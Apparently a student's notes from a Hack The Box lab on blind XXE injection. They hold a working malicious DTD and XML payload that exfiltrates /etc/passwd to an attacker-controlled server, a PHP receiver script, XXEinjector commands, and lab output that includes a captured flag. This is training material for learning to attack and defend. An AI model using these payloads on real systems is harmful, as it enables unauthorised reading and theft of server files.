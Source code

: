 # Blind Data Exfiltration

See how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed

## Out-of-band Data Exfiltration

Make the web application send a web request to our web server with the content of the file we are reading :

python3 -m http.server 8000

Write a script on our local server index.php:

<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

Write xxe.dtd :

<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">

Payload to inject in POST parameter :

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>

--> also possible to do DNS OOB Exfiltration by placing the encoded data as a sub-domain for our URL and then use a tool like tcpdump to capture any incoming traffic and decode the sub-domain string to get the data

## Automated OOB Exfiltration


cat /tmp/xxe.req :

POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT


git clone https://github.com/enjoiz/XXEinjector.git


ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter


cat Logs/10.129.201.94/etc/passwd.log 


## LAB

http://10.129.31.16/blind/

vi /tmp/xxe.req

POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.31.16
Content-Length: 127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.31.16
Referer: http://10.129.31.16/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT


git clone https://github.com/enjoiz/XXEinjector.git
cd XXEinjector

ruby XXEinjector.rb --host=10.10.15.52 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

cat Logs/10.129.31.16/etc/passwd.log 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

ruby XXEinjector.rb --host=10.10.15.52 --httpport=8000 --file=/tmp/xxe.req --path=/327a6c4304ad5938eaf0efb6cc3e53dc.php --oob=http --phpfilter

cat Logs/10.129.31.16/327a6c4304ad5938eaf0efb6cc3e53dc.php.log 
<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
